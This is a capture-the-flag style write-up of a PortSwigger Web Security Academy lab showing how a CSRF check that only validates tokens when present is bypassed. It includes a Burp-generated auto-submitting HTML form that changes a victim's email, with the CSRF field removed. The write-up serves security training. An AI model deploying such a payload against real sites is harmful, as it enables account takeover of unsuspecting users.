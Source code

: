 # Lab: CSRF where token validation depends on token being present

 This lab's email change functionality is vulnerable to CSRF.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter 

# Step 1 Walk the application's change email function using burp

I login to the provided account, and change my email to test@test.com:

![image](https://user-images.githubusercontent.com/83407557/210830473-21617b48-a168-4817-b640-71f1bf4b5759.png)

Having used burp with intercept off, I can see the request in my http history:

![image](https://user-images.githubusercontent.com/83407557/210830803-341bdd85-50b6-4e4b-9f3a-1b9bba82dce9.png)

# Step 2 Create a POC

I send this request to engagement tools->CSRF POC gen

![image](https://user-images.githubusercontent.com/83407557/210831033-5e147504-d229-45ae-90d6-f588360284f8.png)

Under options I turn on auto-submit script and change the email to hermh4cks%40gmail.com (hermh4cks@gmail.com) then regenerate the payload:

**CSRF Payload POC**
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0aa6005103e26d23c3adf6b4007d00bf.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hermh4cks&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="okPzcS8RpATBXV4FGzjcHNbrd5GynTcE" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# Step 3 Host CSRF Payload on attack-server

I add the payload to the body of /exploit on my server and save it with "Store":

![image](https://user-images.githubusercontent.com/83407557/210831936-21835408-11ff-4165-a713-56498520a9ea.png)

# Step 4 Test POC on wiener user

I click View Exploit to get it to execute, however I get an invalid CSRF token error:

![image](https://user-images.githubusercontent.com/83407557/210832414-00c1240e-b849-4d59-b8d7-f5a8c908663d.png)

# Step 5 remove CSRF token from POC

I delete the following element from my POC:

```html
<input type="hidden" name="csrf" value="okPzcS8RpATBXV4FGzjcHNbrd5GynTcE" />
```

And then store the payload again:

![image](https://user-images.githubusercontent.com/83407557/210832828-bb520f55-3c37-459d-ad28-654ea5138023.png)

# Step 6 retest the exploit on Wiener

This time when I view the exploit, the request is sent without a CSRF value and the attack works, changing wiener's email to hermh4cks@gmail.com:

![image](https://user-images.githubusercontent.com/83407557/210833130-282707eb-752d-483e-a74d-64190c45a0cb.png)


# Step 7 Send exploit to victim

Back on my attack server, I send the exploit to the victim:

![image](https://user-images.githubusercontent.com/83407557/210833359-8de47bb3-8c77-49e8-b18a-136d368c9f95.png)

Doing so, changes the vicim's email to an email I control and solves the lab:

![image](https://user-images.githubusercontent.com/83407557/210833521-3898988d-aeeb-468b-bfe7-f35b3576d16c.png)





